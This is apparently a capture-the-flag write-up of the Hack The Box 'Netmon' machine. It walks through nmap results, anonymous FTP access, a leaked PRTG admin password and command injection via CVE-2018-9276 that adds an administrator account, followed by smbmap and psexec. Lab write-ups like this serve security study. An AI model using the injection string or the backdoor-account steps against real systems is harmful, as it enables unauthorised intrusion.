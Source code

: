 ```yaml
---
title: "HTB - Netmon"
date: 2023-03-11T17:08:52+01:00
draft: false
tag: [HTB, Easy]
---
```


Netmon is an easy windows box on HTB that allows anonymous FTP access to the `C:\` drive and have an out of date, CVE vunlerable Paessler PRTG Network Monitor (Netmon) that runs as SYSTEM.

```
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_02-25-19  10:49PM       <DIR>          Windows
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-02-06T23:46:50
|_  start_date: 2023-02-06T23:31:49
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

Since anonymous user access is allowed, we can use it and connect ourselves to the machine. 

We get the user flag in the  `Users/Public`

With ftp we can access 

```
lftp 10.10.10.152:/ProgramData/Paessler/PRTG Network Monitor> ls
02-06-23  07:13PM       <DIR>          Configuration Auto-Backups
02-06-23  07:00PM       <DIR>          Log Database
02-02-19  11:18PM       <DIR>          Logs (Debug)
02-02-19  11:18PM       <DIR>          Logs (Sensors)
02-02-19  11:18PM       <DIR>          Logs (System)
02-07-23  12:00AM       <DIR>          Logs (Web Server)
02-06-23  07:01PM       <DIR>          Monitoring Database
02-25-19  09:54PM              1189697 PRTG Configuration.dat
02-25-19  09:54PM              1189697 PRTG Configuration.old
07-14-18  02:13AM              1153755 PRTG Configuration.old.bak
02-07-23  03:37AM              1726351 PRTG Graph Data Cache.dat
02-25-19  10:00PM       <DIR>          Report PDFs
02-02-19  11:18PM       <DIR>          System Information Database
02-02-19  11:40PM       <DIR>          Ticket Database
02-02-19  11:18PM       <DIR>          ToDo Database
```

in the `PRTG Configuration.old.bak` we find a password
```xml
<dbpassword>
	<!-- User: prtgadmin -->
	PrTg@dmin2018
</dbpassword>
```

Since it's an old file we can try to use `PrTg@dmin2019`

## Remote access as SYSTEM using  CVE-2018-9276

We can gain admin access using an  RCE on a vulnerable version of PRTG Network Monitor 

1. Create a new notification inside Setup > Account Settings > Notifications
2. Select Execute Program and enter `azer.txt;net user bob bob /add;net localgroup administrators bob /add`

After waiting a bit we can access the SMB with full access

```
smbmap -H 10.10.10.152 -u bob -p "bob"
[+] Finding open SMB ports....
[+] User SMB session established on 10.10.10.152...
[+] IP: 10.10.10.152:445 Name: 10.10.10.152
Disk    Permissions
----    ----------- 
ADMIN$  READ, WRITE
C$      READ, WRITE
IPC$    READ ONLY
```

we can use `psexec.py` to get a shell and access the root file


AAAAAAAAAAAAAAAA